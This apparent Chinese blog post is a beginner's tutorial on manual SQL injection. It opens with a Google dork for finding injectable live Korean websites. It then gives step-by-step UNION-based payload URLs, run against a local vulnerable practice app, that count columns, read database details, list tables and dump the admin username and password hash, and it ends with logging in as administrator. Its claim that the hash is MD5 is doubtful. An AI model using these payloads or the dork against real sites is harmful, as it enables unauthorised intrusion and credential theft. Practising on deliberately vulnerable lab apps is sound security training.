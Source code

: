 title: '手动sql注入（初级篇）'
date: 2014-07-15 20:36
tags: sql注入
---

我也是才学 sql 注入一个星期，此篇文章是学给初学者看的
推荐书籍 《sql注入攻击与防御》[http://www.ddooo.com/softdown/50160.htm](http://www.ddooo.com/softdown/50160.htm)
<!--more-->

#1、找到存在sql注入的网站

  __方法__：在google中输入 site:kr inurl:php?id=
    打开出现的网址，在网址后面添加 ’  （英文逗号）如果页面出现跳转 说明可能存在sql注入
__原理__：一般网址都是类似  search.php?search=hello
   相应的sql语句 可能是 select \* from table_name where column_name='hello'
   如果在网址后面添加 ‘   则sql语句为  select \* from table_name where column_name='hello'’
   如果网站没有进行sql注入过滤，会报错
在GitHub有个Web漏洞演练项目，可以下载后部署在自己的电脑上（这里我就不教大家部署了，熟悉Web编程的大部分都会）
        [https://github.com/710leo/ZVulDrill](https://github.com/710leo/ZVulDrill)

网页内容如下
![](http://img.blog.csdn.net/20140715201016711)



#2、检测字段长度

__(1) __
http://localhost/ZVulDrill-master/search.php?search=hello%' order by 1--%20
相当于sql语句 select \* from table_name where colmun_name like '%hello%' order by 1 -- '
说明 MySQL有三种注释 -- 是其中一种 但是 -- 后面要跟一个空格才有效 但是网址会自动去掉最后一个空格需要手动输入%20
注释后面的sql语句不执行
__(2)  __此时页面没有出错，用同样的方式 添加 order by 10
页面出错，然后 order by 5 出错，order by 4 页面正确
 说明字段长  4

#3、查看数据库信息

      __方法__：使用union语句提取数据  
__    (1)__   http://localhost/ZVulDrill-master/search.php?search=hello%' and 1=2 union select 1,2,2,4 --%20
sql语句  select \* from table_name where column_name like '%hello%' and 1=2 union select 1,2,3,4
union前的sql语句中 where条件恒为假，结果集为空，整个sql语句返回的是union后面的结果集
![](http://img.blog.csdn.net/20140715201042343)


__<span style="font-size:14px">   
</span><span style="font-size:18px">(2)  </span>__获取MySQL version user database 等相关信息
   如上图所示，页面上显示 1,2 ，可以利用这个来显示我们需要的信息
 http://localhost/ZVulDrill-master/search.php?search=hello%' and 1=2 union
 select 1,version(),user(),4 --%20
  即  将 2，3 换成 version(),user()
  页面如下
![](http://img.blog.csdn.net/20140715201431834)


同理将 user() 换成 database()  得到数据库名  zvuldrill


user() ------------    wkdty@localhost
version()  --------------   5.6.17 （5.0以上的版本都带有一个 information_schema 的虚拟库里面存放的是所有库的信息.）
 database()   -------------  zvuldrill



#4、获取数据库数据

 
__(1)__获取表名
http://localhost/ZVulDrill-master/search.php?search=hello%'
 and 1=2 union select 1,2,GROUP_CONCAT(DISTINCT table_name),4 from information_schema.columns where table_schema='zvuldrill'--%20
![](http://img.blog.csdn.net/20140715202557175)


数据库中有3张表，对我们最有用的是admin这张表，以管理员身份进入网站可以看到各种信息
__(2)__获取字段名
http://localhost/ZVulDrill-master/search.php?search=hello%' and 1=2
 union select 1,2,GROUP_CONCAT(DISTINCT column_name),4 from information_schema.columns where table_name='admin'--%20


![](http://img.blog.csdn.net/20140715202931238)






__(3)__获取数据
http://localhost/ZVulDrill-master/search.php?search=hello%' and 1=2 union
 select 1,2,GROUP_CONCAT(DISTINCT admin_id,admin_name,admin_pass),4 from admin--%20





![](http://img.blog.csdn.net/20140715203207348)


  admin_id 1 
admin_name admin
admin_pass d033e22ae348aeb5660fc2140aec35850c4da997
   (md5解密之后  得到admin)
根据用户登录入口，找到后台登录入口  ，以管理员身份进入网站

